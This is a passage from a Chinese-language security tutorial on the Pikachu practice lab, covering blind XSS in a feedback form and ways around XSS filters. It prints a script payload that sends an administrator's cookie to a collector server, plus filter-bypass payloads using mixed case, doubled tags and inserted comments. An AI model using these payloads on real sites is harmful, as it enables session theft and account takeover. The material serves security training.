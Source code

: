 **漏洞利用**

方法同上，区别为该是直接获取URL的，但本质还是最后在href标签里。
### XSS之盲打

**概述**

盲打就是攻击者不知道后台是否存在XSS漏洞，不顾一切输入JS恶意代码在留言板、feedback等地方，尽可能寻找漏洞点，当后台管理员在操作时会触发代码，从而达到攻击者目的。

**服务端核心代码**
```php
if(array_key_exists("content",$_POST) && $_POST['content']!=null){
    $content=escape($link, $_POST['content']);
    $name=escape($link, $_POST['name']);
    $time=$time=date('Y-m-d g:i:s');
    $query="insert into xssblind(time,content,name) values('$time','$content','$name')";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)==1){
        $html.="<p>谢谢参与,阁下的看法我们已经收到!</p>";
    }else {
        $html.="<p>ooo.提交出现异常,请重新提交</p>";
    }
}
```

**漏洞利用**

如果我们输入一个JS恶意代码提交到后台，管理员登录后会触发XSS漏洞，当然如果是单纯的``<script>alert(/xss/)</script>``，攻击者整个过程是看不到的，故成为盲打。

盗取Cookie payload：(需要先做一个XSS后台，这里利用pikachu自带的后台)
```js
<script>document.location = 'http://10.16.102.140/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>
```

当管理员登录后台会触发，这里我们模拟演习下登录admin/123456,观察xss后台变化。

![](./src/xss5.png)
### XSS之过滤
**一些绕过过滤思路**
```
1.前端限制绕过。抓包重放，或者修改html前端代码。如反射型XSS(get)中限制输入20个字符。
2.大小写绕过。如<SCRIPT>aLeRT(111)</sCRIpt>。后台可能用正则表达式匹配，如果正则里面只匹配小写，那就可能被绕过。
3.双写绕过。如<scri<script>pt>alert(111)</scri</script>pt>。后台可能把<script>标签去掉换，但可能只去掉一次。
4.注释绕过。如<scri<!--test-->pt>alert(111)</sc<!--test-->ript>。加上注释后可能可以绕过后台过滤机制。
```
